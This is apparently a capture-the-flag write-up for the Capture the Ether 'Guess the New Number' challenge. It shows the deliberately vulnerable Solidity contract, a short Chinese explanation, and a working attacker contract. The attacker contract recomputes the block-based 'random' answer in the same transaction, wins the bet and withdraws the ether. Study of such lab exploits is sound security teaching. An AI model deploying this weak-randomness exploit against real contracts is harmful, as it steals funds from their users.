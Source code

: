 The number is now generated on-demand when a guess is made.

```solidity
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```







solution

https://coinsbench.com/capture-the-ether-guess-the-new-number-fa8df008023c

这道题就和之前的一样了，本质就是attack中的block.number和guess中的block.number是同一个number

```solidity
pragma solidity ^0.8.0;

interface GuessTheNewNumberChallenge {
    function guess(uint8 n) external payable;
}

contract Attacker {
    address public owner;

    constructor(){
        owner = msg.sender;
    }

    function attack(address _addr) external payable{
        bytes memory ans = abi.encodePacked(blockhash(block.number - 1), block.timestamp);
        uint8 answer = uint8(uint256(keccak256(ans)));

        GuessTheNewNumberChallenge(_addr)
            .guess{value: 1 ether}(answer);
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

